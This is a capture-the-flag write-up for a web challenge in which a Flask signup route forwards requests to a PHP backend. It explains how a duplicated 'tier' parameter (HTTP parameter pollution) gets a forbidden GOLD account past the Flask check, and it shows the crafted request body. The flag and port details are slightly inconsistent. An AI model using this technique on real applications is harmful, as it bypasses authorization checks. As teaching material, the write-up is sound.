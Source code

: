 # Under-Construction
> We were building a web app but the new CEO wants it remade in php.

## About the Challenge
We got 2 websites, the first one was created using `Flask` and the second one was created using PHP. And I got the source code too (You can download the source code [here](22790c2f38bd6adde75753641011c223db7e2c0ec718df6e883976ed9c518ca0a86ef67b7e153fd07a9fa734f6a5350028ca266e3bf646f1096d2c4d536ff45a.zip))

In the first website, there are some functionality that we can test such as register an account, login, and also logout feature. When creating an account, users can select their membership tier (BLUE, RED, GREEN, and GOLD)

![preview_server_1](images/preview_server_1.png)

And in the second website, there is only 1 feature (Login user).

![preview_server_2](images/preview_server_2.png)

In the `authorized_routes.py` file, there is a function to register as a user

```python
@authorized.route('/signup', methods=['POST'])
def signup_post():
    raw_request = request.get_data()
    username = request.form.get('username')
    password = request.form.get('password')
    tier = models.Tier(request.form.get('tier'))

    if(tier == models.Tier.GOLD):
        flash('GOLD tier only allowed for the CEO')
        return redirect(url_for('authorized.signup'))

    if(len(username) > 15 or len(username) < 4):
        flash('Username length must be between 4 and 15')
        return redirect(url_for('authorized.signup'))

    user = models.User.query.filter_by(username=username).first()

    if user:
        flash('Username address already exists')
        return redirect(url_for('authorized.signup'))

    new_user = models.User(username=username, 
        password=generate_password_hash(password, method='sha256'), tier=tier.name)

    db.session.add(new_user)
    db.session.commit()

    requests.post(f"http://{PHP_HOST}:1337/account_migrator.php", 
        headers={"token": TOKEN, "content-type": request.headers.get("content-type")}, data=raw_request)
    return redirect(url_for('authorized.login'))
```

We can register an account but there is some restriction (We can't register an account using GOLD tier). And the body request will be sent to `account_migrator.php` in port 1336. Now we need to check `account_migrator.php` file

```php
function insertUser($username, $password, $tier)
{
	$hash = password_hash($password, PASSWORD_BCRYPT);
	if($hash === false) {
		http_response_code(500);
		exit();
	}
	$host = getenv("DB_HOST");
	$dbname = getenv("MYSQL_DATABASE");
	$charset = "utf8";
	$port = "3306";

	$sql_username = "forge";
	$sql_password = getenv("MYSQL_PASSWORD");
	try {
		$pdo = new PDO(
			dsn: "mysql:host=$host;dbname=$dbname;charset=$charset;port=$port",
			username: $sql_username,
			password: $sql_password,
		);

		$pdo->exec("CREATE TABLE IF NOT EXISTS Users (username varchar(15) NOT NULL, password_hash varchar(60) NOT NULL, tier varchar(10) NOT NULL, PRIMARY KEY (username));");
		$stmt = $pdo->prepare("INSERT INTO Users Values(?,?,?);");
		$stmt->execute([$username, $hash, $tier]);
		echo "User inserted";
	} catch (PDOException $e) {
		throw new PDOException(
			message: $e->getMessage(),
			code: (int) $e->getCode()
		);
	}
}
```

This function will inserting user information into `Users` table. And inside the `index.php` file, we need to use a gold tier user in order to obtain the flag

```php
if ($tier === "gold") {
        $response .= " " . getenv("FLAG");
    }
```

## How to Solve?
To create an account with GOLD tier, we need to use `HTTP Parameter Pollution` technique. In Flask, the framework will read first parameter while in PHP the program will read the second parameter. Here is the example of HTTP request:

```
POST /signup
Host: under-construction-web.2023.ctfcompetition.com
...

username=owkwokwok&password=wokwokwokw&tier=blue&tier=gold
```

Now, we need to login to the second website to obtain the flag

![flag](images/flag.png)

```
HackTM{Timisoara}
```